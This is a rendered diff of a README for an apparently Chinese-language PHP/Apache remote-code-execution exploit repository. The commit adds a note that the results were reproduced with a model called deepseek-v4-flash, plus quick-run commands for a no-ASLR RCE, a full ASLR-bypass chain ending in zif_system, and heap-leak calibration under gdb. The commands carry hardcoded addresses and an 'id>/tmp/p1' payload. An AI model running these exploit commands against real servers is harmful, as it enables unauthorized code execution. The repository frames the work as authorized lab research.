

Before and after one commit to 0xh34z/php2shell-bypass-aslr-exp, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
add deepseek-v4-flash reproduction declaration and quick commands

````diff
--- a/README.md
+++ b/README.md
@@ -2,6 +2,30 @@
 
 本仓库记录在**授权实验环境**中，对 Debian 12 + Apache 2.4.68 prefork +
 mod_php + PHP 8.4.26（官方源码自编译、未打补丁）的一组漏洞复现与利用研究。
+
+> **复线声明**：本仓库全部成果均使用 **deepseek-v4-flash** 复线（复现验证）。
+
+## 快速复现
+
+以下命令在目标机（Apache/mod_php 本机）的仓库目录执行，脚本默认连接
+`127.0.0.1:8088`。no-ASLR 地址与各阶段偏移绑定本实验构建，换环境需重新校准。
+
+```bash
+# 1) no-ASLR 纯 HTTP RCE（需 display_errors=On，两个请求）
+python3 tools/send_a_ps.py 17 19 3 12
+python3 tools/send_b_rce2.py 7 2 0x7ffff5e6e0d8 0x7ffff7d13490 "id>/tmp/p1"
+
+# 2) ASLR-on 全链（堆泄漏 → libphp 泄漏 → zif_system，含纯 HTTP 轮换）
+CMD="id>/tmp/p1" bash tools/pure_aslr_run.sh
+
+# 3) display_errors=0 堆泄漏（需 gdb；A-only 与 A+B forge）
+./tools/trial_bins.sh 0 62 235 15000 208 0 4000 103
+BN=160 BVL=231 BB1_LEN=1048551 BF_P1=256 BF_READ=4000 \
+  ./tools/trial_ab.sh 0 62 235 15000 208 0 4000 103
+```
+
+> 步骤 3 的 `trial_*.sh` 会重启本机 Apache 并挂 gdb，仅用于校准/取证；
+> 实际攻击请求本身仍是普通 multipart HTTP。
 
 约束：
 
````
